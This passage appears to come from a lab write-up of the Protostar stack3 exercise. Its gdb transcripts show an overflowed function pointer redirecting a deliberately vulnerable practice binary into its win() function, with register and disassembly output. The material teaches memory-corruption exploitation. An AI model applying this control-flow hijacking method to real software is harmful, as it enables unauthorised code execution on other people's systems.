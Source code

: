 ```
(gdb) r < /tmp/stack3
Starting program: /opt/protostar/bin/stack3 < /tmp/stack3
calling function pointer, jumping to 0x08048424

Breakpoint 1, 0x08048475 in main (argc=1, argv=0xbffffd04) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
in stack3/stack3.c
```

Examining the registers on the breakpoint, we can see our EAX has been set to the start address of the win() function:

```
(gdb) i r
eax            0x8048424	134513700
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffbf0	0xbffffbf0
ebp            0xbffffc58	0xbffffc58
esi            0x0	0
edi            0x0	0
eip            0x8048475	0x8048475 <main+61>
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

(gdb) disas win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave  
0x08048437 <win+19>:	ret    
End of assembler dump.
```

Now if we continue, we should see our execution has been redirected into our win condition:

```
(gdb) c
Continuing.
code flow successfully changed
```

Once again, we check to make sure this works outside of GDB and our win() address is the same. As can be seen, we complete our challenge:
